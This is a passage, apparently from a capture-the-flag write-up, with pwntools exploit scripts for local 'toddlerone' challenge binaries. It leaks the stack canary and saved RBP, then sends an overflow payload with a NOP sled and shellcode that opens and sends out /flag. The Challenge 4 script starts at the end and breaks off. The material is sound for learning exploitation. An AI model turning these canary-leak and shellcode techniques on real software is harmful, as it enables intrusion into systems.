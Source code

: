 ```python
while True:
    data = p.recvline()
    if buf_1 in data:
        start_index = data.find(buf_1) + len(buf_1) - 1  # -1 As we also take the fake "B" LSB
        canary = struct.unpack('<Q', data[start_index: start_index + 8])[0] & 0xffffffffffffff00
        print(f'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@Canary value:{hex(canary)}')
        break

canary_bytes = struct.pack('<Q', canary)

# Leak rbp
buf_2 = header + padding + b'B' * 8
p.sendline(str(len(buf_2)))
p.send(buf_2)

while True:
    data = p.recvline()
    if buf_2 in data:
        start_index = data.find(buf_2) + len(buf_2)
        print(f'Data is:{data} index:{start_index}')
        rbp_leak = data[start_index: start_index + 6] + b'\x00' * 2 # 6 instead of 8, as always the 2 MSBs are \x00
        assert(len(rbp_leak) == 8)
        print(f'@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@RBP value:{rbp_leak}')
        break

shellcode = b"\x90" * 0x300 + b"\x48\xBB\x2F\x66\x6C\x61\x67\x00\x00\x00\x53\x48\xC7\xC0\x02\x00\x00\x00\x48\x89\xE7\x48\xC7\xC6\x00\x00\x00\x00\x0F\x05\x48\xC7\xC7\x01\x00\x00\x00\x48\x89\xC6\x48\xC7\xC2\x00\x00\x00\x00\x49\xC7\xC2\xE8\x03\x00\x00\x48\xC7\xC0\x28\x00\x00\x00\x0F\x05\x48\xC7\xC0\x3C\x00\x00\x00\x0F\x05"
buf_3 = b'C' * 88 + canary_bytes + b'D' * 8 + rbp_leak + shellcode  # Overwrite RA with rbp addr for simplicity, overflow is large enough
p.sendline(str(len(buf_3)))
p.send(buf_3)

p.interactive()
```

## Challenge 4

Added an exit condition, that can be avoided via certain magic.

```python
from pwn import *
import os, sys
import struct

BINARY = '/challenge/toddlerone_level4.0'
elf = ELF(BINARY)
GDB_SCRIPT= '''
b challenge
c


'''

p = process(BINARY)
# p = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
PAD_LENGTH = 56

header = b'REPEAT'
padding = b'A' * (PAD_LENGTH - len(header))

```